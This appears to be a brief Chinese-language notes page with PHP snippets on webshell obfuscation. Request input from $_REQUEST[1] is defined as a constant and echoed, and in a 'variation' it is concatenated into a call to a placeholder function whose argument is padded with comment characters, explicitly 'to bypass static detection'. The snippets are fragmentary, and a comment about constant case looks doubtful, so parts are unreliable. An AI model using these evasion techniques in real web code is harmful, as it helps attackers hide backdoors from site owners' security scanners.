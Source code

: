 # ygh

---

变量定义：

```
define("hi","$_REQUEST[1]");
echo hi;  # 输出$_REQUEST[1]传输的内容
echo HI;  # 输出$_REQUEST[1]传输的内容
```

变形：

```
$url=$_REQUEST[1];
$http=" ";
xxx(`/******/***xxxx***\\/******`.$http.$url);  # 在前面加注释绕过静态检测
```

